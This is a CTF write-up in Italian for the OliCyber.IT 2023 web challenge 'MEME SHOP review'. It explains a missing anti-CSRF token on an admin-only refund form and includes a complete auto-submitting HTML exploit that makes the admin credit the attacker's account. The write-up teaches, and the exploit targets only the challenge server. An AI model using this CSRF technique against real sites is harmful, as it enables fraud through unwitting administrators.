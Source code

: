 # OliCyber.IT 2023 - Simulazione training camp 2

## [web] MEME SHOP review (33 risoluzioni)

Abbiamo una versione aggiornata dell'applicazione precedente in cui però anche manomettendo i cookie non si ottiene niente in quanto il calcolo del prezzo è fatto lato server questa volta.
Tuttavia abbiamo una funzionalità di rimborso che però funziona solo se è eseguita dall'utente admin.

Inoltre abbiamo la possibilità di inserire una url che verrà visitata dall'admin tramite la funzione di report.

### Soluzione

Guardando per bene il form di rimborso notiamo l'assenza di qualsiasi sorta di token anti csrf, possiamo quindi exploitare questa vulnerabilità con il seguente codice.

Mettiamo quindi il codice su un qualsiasi hosting, modifichiamo lo user id inserendo quello del nostro utente, che si può ricavare dallo stesso form di rimborso, e successivamente sottomettiamo la URL all'admin.

Ricaricando la pagina possiamo quindi acquistare legittimamente la flag.

### Exploit

```html
<html>
  <title>Exploit</title>

  <body>
    <form
      action="https://meme_shop_review.challs.olicyber.it/refund.php"
      method="POST"
      id="form"
    >
      <input class="form-input" type="number" name="amount" value="1000" />
      <input type="number" name="user_id" value="2" />
      <input type="submit" value="" />
    </form>

    <script>
      setTimeout(() => {
        console.log("log");
        document.getElementById("form").submit();
      }, 1000);
    </script>
  </body>
</html>
```
